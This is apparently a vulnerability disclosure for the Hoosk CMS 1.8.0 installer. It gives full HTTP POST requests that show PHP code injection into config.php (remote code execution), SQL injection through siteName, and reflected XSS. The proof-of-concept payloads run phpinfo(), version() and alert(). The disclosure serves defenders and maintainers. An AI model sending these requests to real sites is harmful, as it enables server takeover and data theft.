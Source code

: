 hoosk

### My env

hoosk v1.8.0

php 5.6.9

Windows

### 0x01 install rce

At `install/index.php:55`，user input was saved to config.php causing RCE.



Send an request:

```
POST /install/index.php HTTP/1.1
Host: XXXXX
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 147

siteName=test&siteURL=http%3A%2F%2Fa.com%2F%27%29%3Bphpinfo%28%29%3Bexit%28%29%3B%2F%2F&dbName=hoosk&dbUserName=root&dbPass=123456&dbHost=localhost
```

![image-20200923112510080](hoosk.assets/image-20200923112510080.png)

We can write any php code into `config.php`

![image-20200923112607126](hoosk.assets/image-20200923112607126.png)



### 0x02 install SQLI

Same file as 0x01. At line 63, user input was concat to a SQL query string, causing SQL injection.

Send request:

```
POST /install/index.php HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 122

siteName=',siteTitle%3dversion()%23&siteURL=http%3A%2F%2Fa.com&dbName=hoosk&dbUserName=root&dbPass=123456&dbHost=localhost
```

the final sql string would be:

```
UPDATE hoosk_settings SET siteTitle='',siteTitle=version()#' WHERE siteID=0
```

`version()` has been executed, and its result returned:

![image-20200923135921880](hoosk.assets/image-20200923135921880.png)



### 0x03 install xss

same as 0x02, param `siteName` also vulnerable to xss:

```
POST /install/index.php HTTP/1.1
Host: XXXX
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 122

siteName='<script>alert(1)</script>&siteURL=http%3A%2F%2Fa.com&dbName=hoosk&dbUserName=root&dbPass=123456&dbHost=localhost
```

![image-20200923140254374](hoosk.assets/image-20200923140254374.png)









